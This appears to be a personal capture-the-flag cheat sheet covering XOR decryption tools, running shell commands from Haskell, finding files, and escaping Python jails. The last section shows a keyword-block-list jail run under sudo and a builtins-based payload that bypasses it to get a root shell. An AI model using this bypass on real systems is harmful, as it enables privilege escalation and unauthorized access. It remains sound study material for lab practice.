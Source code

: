 
## xor

cat encrypted.txt| python2 xor.py securewebincrocks

https://github.com/ShawnDEvans/xorpy/blob/master/xor.py


xortool encrypted.txt -b
    securewebincrocks


## Haskell

haskell is fiction programming language's bash cmd exec

```
import System.Process

main = callCommand "cp somefile somedestination"
```

https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell

## Find paticular file

find / -name "libfoo.so" 2>/dev/null
    /usr/lib/libfoo.so    

## Python escaping jails with buitin functions

https://anee.me/escaping-python-jails-849c65cf306e

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()

kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
root@vagrant:~# id

```
